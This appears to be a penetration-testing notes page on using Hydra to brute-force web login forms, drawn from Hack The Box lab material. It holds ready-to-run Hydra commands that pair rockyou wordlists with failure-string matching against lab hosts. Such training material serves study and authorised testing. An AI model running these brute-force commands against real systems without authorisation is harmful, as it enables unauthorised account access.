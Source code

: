 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1) and select something unique from its source code (Figure 2).

<figure><img src="../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
